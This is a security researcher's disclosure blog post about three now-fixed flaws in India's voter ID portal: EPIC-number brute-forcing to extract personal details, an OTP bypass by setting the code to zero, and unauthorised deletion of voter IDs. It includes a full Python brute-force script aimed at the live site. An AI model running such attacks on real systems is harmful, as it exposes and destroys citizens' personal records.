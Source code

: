 ```yaml
---
layout: post
title: Exposing Millions of Voter ID card users’ details.
date: 2022-07-07
summary: Three critical bugs in India's voter portal led to the exposure of voter ID card users' data, impacting millions of individuals.
categories: VDP
tags: [IDOR, ATO]
---
```




![](blog/images/voter.webp)



*Hi, Everyone. hope you’re well. I’m [Aziz](https://twitter.com/nxtexploit). Through this write-up, I will share some security issues I’ve found on the official Voter ID card maintaining platform [http://nvsp.in](https://nvsp.in). I was filling out a correction form for my mom’s card, I’m not really interested in finding bugs on gov websites :`) that moment [burpsuite ](https://portswigger.net/burp/documentation/desktop/penetration-testing)was running in the background and I thought let's have a try. After spending half an hour I found some critical issues that I’m going to share. All these issues are already fixed by the government.*

In India, a [Voter ID](https://www.google.com/search?q=what+is+voter+ID+%28india%29) card is an identity document issued by the Election Commission of India to adult domiciles of India who have reached the age of 18, which primarily serves as an identity proof for Indian citizens while casting their ballot in the country’s municipal, state, and national elections. More than **780 million** Voter IDs are active at present.

* ## **Bruteforcing valid Voter IDs and extracting details (IDOR / BOLA)**

While registering a new account it shows two options “I have ``EPIC`` number” and “I don’t have `EPIC` number”. `EPIC` stands for Electors Photo Identification Card and the `EPIC` number is nothing but Voter ID no. If we chose we don’t have a Voter ID number then they will give you an option to add after registering on the portal. After registration, I tried to add any random `EPIC` no. with my account but it show it's not valid. So I sent that HTTP request to burp intruder for [brute-forcing](https://en.wikipedia.org/wiki/Brute-force_attack).

![](https://cdn-images-1.medium.com/max/2728/1*SKG6_nhMm0PkRkRXJjK2yg.png)

A Voter ID also known as `EPIC` number is an alphanumerical ID, it contains three Alphabets at starting and seven numbers i.e. `WRI2345678`, `RDH2345678`, `DTN2345678`, `YCV2345678`, `NLN2345678`, `XMB2345678`, etc. These three alphabets are Not random alphabets, you can find similar IDs with similar these three alphabets in beginning but the rest seven digits are different.

![](https://cdn-images-1.medium.com/max/2000/1*oCiejaOMRmwdEpIRzi27PQ.png)

I added the payload position on these seven-digit numbers on `Epic_no=` parameter i.e `Epic_no=WRI$2345678$`  (as you can see in the below screenshot.)

![Adding payload position](https://cdn-images-1.medium.com/max/2236/1*xz61EAZwEhSWlsDpMkJSSw.png)

Surprisingly there is no limitation implemented in the backend and I was able to send **unlimited requests** without getting blocked by firewall. As a result backend server responding 302 redirections for every valid voter ID. (As shown in the screenshot below)

![responding 302 for every valid voter ID](https://cdn-images-1.medium.com/max/2740/1*dLe_eyFiPf9amQz0o50meQ.png)

Then I wrote a [python script](https://github.com/nxtexploit/Voter-ID-bruteforcer/blob/main/Voter-ID-bruteforcer.py) that will brute force the values and give output all valid voter_IDs for me.

![](https://cdn-images-1.medium.com/max/2000/1*DA8ghQIWnJlNZty0OK6oEA.gif)

```python

import urllib3
import requests
import time
from termcolor import colored
urllib3.disable_warnings()
start = time.perf_counter() 

cookies = {
    'nvsp': '4e565XXXXX',
    'cookiesession1': '678B286C164561FFEFXXXXXXXXXXX',
    'nvsp': '4e56XXXXX',
    'nvspid': 'ycnpiabqfasdf0asdf09ad',
    '__RequestVerificationToken': 'taDxPTIR3vxuyduujVCoi5eJdSlsAv1X0MQea7VYvLf6ksNDNsK7BkQZbNLSKagASDFpouasdfuopasfcsCmlofM6tTlC1opGS9FBEjYYXxC-z9ze73zdtEjUXtq9JfGVDfsXwt3WmQ925gSsbUw2',
    '.ASPXAUTH': '53BDCF7905E361CB6ECE80B77506A1A4A54DFS6546A5DF787AS8DFB2B9CE6874FDE524BF7BAE0DDC59329705AB29D49A148B4494341EC7634C13DB69FA25425DCA10CAADA3A10B025D58D8220E842959F0C650A8DF39B43039354B537BCE61AFB4922B99E22F20DC099C0DE9BC2CA53D1A37F387867855DDE5D89583B2F5F95D898A',
}

headers = {
    'Host': 'www.nvsp.in',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://www.nvsp.in',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.nvsp.in/Account/MyProfile',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


for voter_ID in range(2000000,2999999,1):


    data = '__RequestVerificationToken=dayrB-CCldwVYHXi7OE8b455jM3jLXRIdlHGQ5Wf4XyFE_7jjo1X3VfmkC4ZanqFO6h0XtveuAmSk1SIWWmV-SbA7nTUIJNKAfyRoiG43FvEAlDPi5VfkJWpGn9sV8IuFuBezLnC-tZSYFGqrRbECXgqlxpSduENgqaWy7oWQK01&OTP=&UserId=UQH34XXXXXXXX&firstName=Aziz&lastName=&Email=XXXXXXXX%40gmaill.com&Epic_no=WRI'+str(voter_ID)+'&PhoneNumber=XXXXXXXX87&st_code=S25&ac_no=55&PART_NO=42&Captcha=&Code='

    response = requests.post('https://www.nvsp.in/Account/MyProfile',allow_redirects=False, cookies=cookies, headers=headers, data=data, verify=False)

    if response.status_code == 302:
        print(f"Epic-ID FOUND = "+colored("WRI"+str(voter_ID),'green'))
    elif response.status_code == 200:
        print(colored("Not valid ID",'yellow'))
    else:
        print(colored("Session Expired ",'red')+"(response code = "+colored(str(response.status_code),'yellow')+")")

finish = time.perf_counter()

print(f'\n\nFinished in {round(finish-start, 2)} second(s)\n')

```

Now I have valid Voter IDs of random persons then, I added these IDs with my profile under “[/Account/MyProfile](https://www.nvsp.in/Account/MyProfile)”. Then there is an option under the “/[forms](https://www.nvsp.in/Forms)/”section which is **form001** and this form is already filled with **Name, father’s name, address, Date of birth, etc. **according to that valid EPIC ID added to my profile.

![**Extracted details of a random Person**](https://cdn-images-1.medium.com/max/2732/1*6izoRB4cWjN5zjdZTDYdJg.png)

* ## **Account takeover (OTP bypass)**

On the profile details updating section I was trying to add another user's number. So I created another account for it. But there was an OTP implanted there, and I tried to brute-force it but it didn’t work :( I remember reading an article last year, you can read it **[here](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)**, where the author just added 0 after intercepting the request. And I did the same thing here on OTP parameter and it worked :)

![intercepting traffic while OTP is verifying](https://cdn-images-1.medium.com/max/2740/1*q0TSMqdgsXTtzROWDo6y9g.png)

![[Changed the OTP value to zero](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)](https://cdn-images-1.medium.com/max/2000/1*eEVjGxhUUzdbv2vkHlExnw.png)

After bypassing I thought it just can register the victim’s number then I’ll reset the password, But surprisingly on replacing the victim’s number my profile data automatically changed with the victim’s details, And I can own his account.

![](https://cdn-images-1.medium.com/max/2740/1*az1-jwdyMLK1pOLWbA6ghA.png)

* ## **Delete/remove any random user’s Voter ID card Permanently (Logic flaw)**

From the 1st bug, we can get and add any random user’s Voter ID to our account, From that on the home page there is an option for “Deletion of Enrolment”. And nothing to be needed after an attacker added any random Voter ID on his profile section. then he can easily delete any random user’s Voter ID permanently.

![An attacker can delete any random user’s card permanently](https://cdn-images-1.medium.com/max/2732/1*SvvI8ZoSelvF3-83BzQRTw.png)

I reported these three issues to [vdisclose@cert-in.org.in](https://www.cert-in.org.in/VulnerIncident.jsp) and they fixed these issues.

I hope you liked this article, If you have any questions then you can dm me on Twitter: [https://twitter.com/nxtexploit](https://twitter.com/nxtexploit)

Thanks for reading,

regards,

**Aziz**
